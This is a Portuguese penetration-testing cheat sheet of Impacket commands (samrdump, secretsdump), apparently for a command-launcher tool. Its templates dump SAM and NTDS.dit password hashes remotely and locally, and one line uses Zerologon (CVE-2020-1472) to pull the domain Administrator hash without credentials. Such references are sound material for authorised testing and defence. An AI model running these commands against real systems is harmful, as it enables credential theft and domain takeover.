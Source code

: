 # Impacket

% impacket, windows, smb, 445

## samrdump - contas do sistema, shares, etc... (dump de informações do banco de dados "Security Accout Manager" (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<ip>
```

## secretsdump local dump - Extrai hashes da base de dados do arquivo SAM.
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - Extrai hashes do arquivo ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - Obter acesso administrativo de modo anonimo (sem credenciais)
zerologon - CVE-2020-1472
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - Extração remota de hashes. 
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - Extração remota de hashes + informações de usuarios. 
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

